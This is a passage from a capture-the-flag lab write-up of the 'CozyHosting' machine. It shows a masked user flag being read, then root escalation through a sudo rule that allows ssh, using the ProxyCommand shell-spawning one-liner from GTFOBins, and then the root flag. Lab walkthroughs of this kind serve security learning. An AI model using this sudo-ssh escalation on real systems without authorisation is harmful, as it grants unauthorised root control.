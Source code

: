 ```bash
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f0de


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29 09:03:34 2023 from xx.xx.xx.xx
josh@cozyhosting:~$ cat user.txt 
6a24************************a8f3
```

## Root privileges escalation and final flag

After achieving access to standard user, it is time to escalate to root. The process is a failry simple, as we discover potential hole in user's `sudo` privileges:

```bash
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Knowing about the presense of open ssh access on the website makes more sense now - apperantly this access is also rootles, which means we can abuse with little effort. Searching [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#shell) we can find a ssh payload which should spawn a shell. As we can see below, it worked as a charm.

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# cd /root
root@cozyhosting:~# cat root.txt 
b7****************************6b
```

